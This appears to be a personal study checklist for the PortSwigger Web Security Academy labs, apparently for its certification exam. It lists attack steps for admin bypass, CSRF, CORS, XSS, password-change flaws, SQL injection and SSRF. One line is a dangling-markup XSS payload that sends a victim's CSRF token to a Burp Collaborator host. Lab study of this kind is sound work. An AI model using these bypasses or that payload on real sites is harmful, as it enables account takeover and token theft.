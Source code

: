 - Change host header to `localhost` to bypass authentication to `/admin`
- Request `/` with the header `X-Original-URL` set to `/admin`
- If all else fails, see the HTTP Request Smuggling labs. They are generally are used to access `/admin`. 

## My Account

- Check if after authentication any other cookies are added. See if they are serialized. 
- Check the update email feature response for roleID information. 
    - Or see if there's a `/role-selector` follow-up request after authetnicating like from *Authentication bypass via flawed state machine*
    - See if you can change the information to admin and affect admin's data (username, email, password, etc.)
- Check for XSS in parameters for the change email feature. *From: Reflected XSS protected by CSP, with dangling markup attack*
    - That lab was more so if you can input the email value into the field via the URL, i.e. `https://your-lab-id.web-security-academy.net/my-account?email=test@test.com`. If it autofills, can use this exploit server xss code: `<script> location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?'; </script>`. This can get their CSRF token.
- Check the update email request for csrf tokens. Change request method to GET and see if token is still required. Could CSRF the admin. 
    - Also test if the csrf token is even required in POST or GET requests. 
    - If csrf tokens are changing every time, they may be one-time-use and not tied to user session. Grab an unused csrf token (drop a valid request) and put that in the csrf poc for the exploit server. 
    - If csrf token is in cookie and body, see "CSRF where token is duplicated in cookie"
    - Edit the Referer header in the update email request to see if it's rejected. If so, remove it completely to see if it is accepted. If so, generate CSRF POC and include `<head><meta name="referrer" content="no-referrer"></head>` before the body
    - If all else false, see "CSRF with broken Referer validation"
- Check for CORS headers, i.e. `Access-Control-Allow-Credentials`
    - If so, include/change the origin header and see if reflected in the CORS header. If so *see "CORS vulnerability with basic origin reflection"*
    - See if null origin is allowed (more useful if sensitive useful data is included in the `/accountDetails` page.) *See "CORS vulnerability with trusted null origin"*
    - See "CORS vulnerability with trusted insecure protocols" If XSS and CORS are present 
- If a change password feature exists, see if `current-password` is even required. If not, change username to administrator.
    - See if the password change request has a username field. Try to put in `administrator`. Check for behavior similar to "Password brute-force via password change"
    - If the `temp-forgot-password-token` shows up in both URL and request body, see if removing them is still accepted by the server (only really matters if you can edit the `username` field too)

## Advanced Search
- Insertion point scan any parameters and forms. (SQLi from practice exam)
- Check for parameters likely vulnerable to ssrf (params with urls in them) i.e. `stockApi`, `path` from SSRF labs.

## Blog posts
